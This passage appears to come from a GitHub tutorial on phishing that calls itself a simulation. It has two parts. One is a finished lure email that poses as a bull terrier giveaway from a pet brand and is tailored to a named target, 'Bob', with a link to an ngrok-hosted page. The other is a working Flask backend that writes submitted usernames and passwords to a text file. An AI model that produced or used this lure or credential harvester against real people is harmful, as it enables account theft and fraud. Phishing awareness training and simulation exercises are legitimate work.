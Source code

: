 
### **Step 2: Designing the Phishing Email** ✉️

#### **Email Content:**
We designed a convincing email targeting Bob, a bull terrier enthusiast, to lure him into clicking the link. Below is the email content:

```markdown
Subject: 🐾 Don’t Miss Out, Bob! Bull Terrier Giveaway Ends Soon! 🐾

Body:
Hi Bob,

We know how much you adore bull terriers—so we’ve teamed up with [DoggieLux](https://www.doggieluxe.com/) to bring you something special!

🎉 **Exclusive Giveaway for Bull Terrier Lovers** 🎉

Enter now for a chance to win one of these amazing prizes:
- 🦴 **Premium Bull Terrier Care Package**
- 🐕 **Custom Merchandise Featuring Your Dog's Name**
- 🛍️ **A $100 Gift Card for Pet Supplies**

**[Click Here to Enter the Giveaway Now!](https://3fd6-91-178-64-150.ngrok-free.app)**

🕓 **Hurry—Entries Close in 48 Hours!**

Warm regards,  
The Bull Terrier Community Team  
🐾 We ❤️ Bull Terriers!
```

---

### **Step 3: Building the Phishing Website** 🌐

> **Note:** When testing, do not use your real email or password! This is a simulation, so make up fake credentials for safety and fun. 😉

#### **1. Flask Application (Backend):**
The Flask app handles the backend logic for serving pages and storing form submissions.

**app.py:**
```python
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/submit', methods=['POST'])
def submit():
    username = request.form.get('username')
    password = request.form.get('password')
    with open('credentials.txt', 'a') as file:
        file.write(f'Username: {username}, Password: {password}\n')
    return render_template('thank_you.html')

if __name__ == '__main__':
    app.run(debug=True)
```

---